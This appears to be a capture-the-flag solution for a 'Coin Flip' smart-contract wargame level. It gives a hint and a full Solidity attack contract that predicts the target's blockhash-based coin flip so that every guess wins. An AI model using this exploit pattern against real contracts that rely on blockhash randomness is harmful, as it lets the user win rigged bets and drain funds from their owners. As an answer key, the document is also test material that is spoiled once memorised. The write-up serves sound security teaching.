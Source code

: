 # Coin Flip

**HINT:** Your going to want to go to remix IDE and create a contract to hack the coinFlip to always come out to be true.
<details><summary>Answer</summary>
<p>

```
pragma solidity ^0.6.0;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract Hack {
    CoinFlip coin_flip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    bool public side;
    
    constructor(address _addr) public {
        coin_flip = CoinFlip(_addr);
    }
    
    function hack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
        side = coinFlip == 1 ? true : false;
        coin_flip.flip(side);
    }
}
```

Spam the hack function 10 times 
<br></br>
To check how many times you have won use
```js 
Number(contract.consecutivewins()) 
```
</p>
</details>
